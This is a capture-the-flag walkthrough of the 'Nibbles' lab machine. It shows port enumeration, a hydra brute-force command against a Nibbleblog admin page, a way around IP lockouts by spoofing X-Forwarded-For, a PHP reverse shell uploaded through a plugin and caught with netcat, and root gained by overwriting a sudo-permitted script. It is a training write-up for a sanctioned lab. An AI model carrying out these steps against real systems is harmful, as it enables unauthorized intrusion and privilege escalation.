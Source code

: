 # IP Address: 10.10.10.75

# Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP
Browsing to the site, we see a basic "Hello World" heading. Inspecting the page source we find a hidden directory.

```
┌──(code㉿kali)-[~]
└─$ curl http://10.10.10.75
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->

```

Fuzzing, we find an admin login here: http://10.10.10.75/nibbleblog/admin.php

We bruteforce the login. 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username or password" -V
```

It looks like something is causing hydra to give false positives after a few tries. Could there be timeouts or something after some number of login failures?

Looking at the source code for this software here: https://github.com/dignajar/nibbleblog/tree/2a5f242d89b85c0aae2df95c4c95bc627ade54fd we can see there are security rules at /admin/boot/rules.

In 3-variables.bit, we can confirm that IP blacklisting is taking place. 
```
... 

define('BLACKLIST_SAVED_REQUESTS', 15);

define('BLACKLIST_LOCKING_AMOUNT', 5); // Number of failures before being locked

define('BLACKLIST_TIME', 5); // Time in minutes the ip will be blocked
...
```

Researching further, we find that a kind soul has already scripted a way around this by manipulating the X-FORWARDED-FOR header. The script lives here https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/

Running this, we get: 
```
...
Attempt 2562: 71.48.240.2               cloud9
Attempt 2563: 71.48.240.2               vicky
Attempt 2564: 160.144.44.253            rosie
Attempt 2565: 160.144.44.253            jakarta
Attempt 2566: 160.144.44.253            gillian
Attempt 2567: 160.144.44.253            flakita
Attempt 2568: 55.230.85.140             darlene
Attempt 2569: 55.230.85.140             tabitha
Attempt 2570: 55.230.85.140             russel
Attempt 2571: 55.230.85.140             nibbles
Password for admin is nibbles

```

# Exploitation 

After logging in with the bruteforced credentials, we upload a php reverse shell. 

1. Navigate to Plugins >> My Image >> click Configure
2. Upload php-reverse-shell.php
3. Navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/ 
4. Click image.php and catch shell as nibbler

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488                                                                                                                              
listening on [any] 4488 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.75] 55056
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:04:17 up  1:00,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$
```

user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Nibbles/images/Pasted%20image%2020211115210048.png)

# Privilege Escalation
We can run monitor.sh as root without any password.
```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

Find the personal.zip archive
```
$ cd /home/nibbler                                                                                                                             
$ ls
personal.zip
user.txt
$ unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
$ cd personal/stuff
$ ls
monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

# clear the screen
clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage
...
```

The script is self explanatory ("Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script") but it looks like we have write access to it. 

We backup the script and replace the original code with a command to spawn a new shell.

```
$ cp monitor.sh monitor.sh.bak
$ which bash
/bin/bash
$ echo '/bin/bash' > monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
id
uid=0(root) gid=0(root) groups=0(root)

```

# Proof
root.txt

![root.txt](https://github.com/codetantrum/walkthroughs/blob/master/Nibbles/images/Pasted%20image%2020211116195608.png)
